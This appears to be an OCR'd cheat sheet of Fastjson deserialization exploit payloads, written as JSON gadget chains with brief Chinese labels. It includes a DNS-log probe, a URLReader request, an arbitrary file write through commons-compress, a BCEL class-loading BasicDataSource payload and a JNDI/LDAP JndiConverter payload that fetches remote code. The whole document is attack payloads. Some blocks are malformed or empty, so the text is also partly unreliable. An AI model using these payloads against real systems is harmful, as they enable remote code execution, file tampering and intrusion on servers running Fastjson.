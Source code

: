 ```json
{
	"@type": "java.net.URL",
	"val": "http://dnslog.com"
}
```
JSONObject
```json
{
	"@type": "com.alibaba.fastjson.JSONObject",
	{
		"@type": "java.net.URL",
		"val": "http://dnslog.com"
	}
}
""
}
```
URLReader
```json
{
	"poc": {
		"@type": "java.lang.AutoCloseable",
		"@type": "com.alibaba.fastjson.JSONReader",
		"reader": {
			"@type": "jdk.nashorn.api.scripting.URLReader",
			"url": "http://127.0.0.1:9999"
		}
	}
}
```
AutoCloseable 任意文件写入
```json
{
	"@type": "java.lang.AutoCloseable",
	"@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
	"out": {
		"@type": "java.io.FileOutputStream",
		"file": "/path/to/target"
	},
	"parameters": {
		"@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
		"filename": "filecontent"
	}
}
```
BasicDataSource
```json
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassName" : "$$BCEL$$$l$8b$I$A$A$A$A...",
  "driverClassLoader" :
  {
    "@type":"Lcom.sun.org.apache.bcel.internal.util.ClassLoader;"
  }
}
```
JndiConverter
```json
{
	"@type": "org.apache.xbean.propertyeditor.JndiConverter",
	"AsText": "ldap://127.0.0.1:23457/Command8"
}
```
JtaTransactionConfig
```json
```